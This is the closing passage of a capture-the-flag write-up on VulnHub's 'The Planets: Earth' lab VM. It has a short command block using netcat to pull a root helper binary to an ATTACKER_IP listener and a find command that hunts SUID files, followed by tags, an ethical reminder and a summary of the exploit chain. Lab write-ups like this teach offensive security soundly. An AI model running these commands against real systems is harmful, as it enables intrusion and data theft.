# Transfer file (attacker listener):
nc -lnvp 4444 > reset_root
# (on target) nc ATTACKER_IP 4444 < /usr/bin/reset_root
# Find SUID:
find / -perm -u=s -type f 2>/dev/null
```

## Tags
`CTF`, `VulnHub`, `InfoSec`, `Web Security`, `Privilege Escalation`, `Python`

## FINAL ETHICAL REMINDER
This walkthrough was performed on an intentionally vulnerable VM (VulnHub). **Never** run scanning or exploitation tools against systems you do not own or lack permission to test. Always follow responsible disclosure for real-world vulnerabilities.

---

## SNAPSHOT:
This writeup documents a full exploit chain against VulnHub’s **“The Planets: Earth.”** Starting with local network discovery and certificate inspection, I leveraged host-header discovery to enumerate a hidden test site, decoded developer test data with a small Python XOR decoder to recover admin credentials, used an admin form to achieve remote code execution and obtain a reverse shell, then escalated to root by analyzing and leveraging a privileged helper script. All steps were performed in a controlled lab environment and documented step-by-step, with scripts and artifacts included for reproducibility and learning.

---